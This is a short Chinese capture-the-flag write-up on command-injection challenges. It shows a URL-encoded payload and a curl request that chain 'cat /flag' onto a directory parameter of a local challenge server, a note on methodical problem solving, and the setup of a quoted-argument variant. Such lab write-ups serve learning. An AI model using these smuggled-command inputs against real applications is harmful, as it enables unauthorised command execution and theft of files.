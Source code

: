结果：

```
%2Fchallenge%20%26%26%20cat%20%2Fflag
```

## exp

```
curl -v http://challenge.localhost:80/?directory=%2Fchallenge%20%26%26%20cat%20%2Fflag
```



# 05-cmdi-3

什么叫做专业呢？

把一件事情，步骤化，系统化，可复制化。

比如做题写wp。

Data+Algorithms=Program

01，描述自己遇到什么问题。

02，使用自己的program能否解决问题

03，发现能够，那就实现。跳转12。

04，发现自己不能实现。

05，思考，如何快速准确高效的优化自己的Program。

06，无法优化。跳转到13。

07，可以优化。

08，优化自己的Program。

09，使用优化后的Program尝试解决问题。

10，发现自己依旧不能解决问题。跳转到05。

11，发现自己能够解决问题。

12，解决问题并记录下你的实现方法。结束。

13，立即放弃。

---



描述：

这道题在注入的时候，会存在两个单引号，执行的指令为：

```
ls -l '{directory}'
```

除此之外，不存在任何过滤。
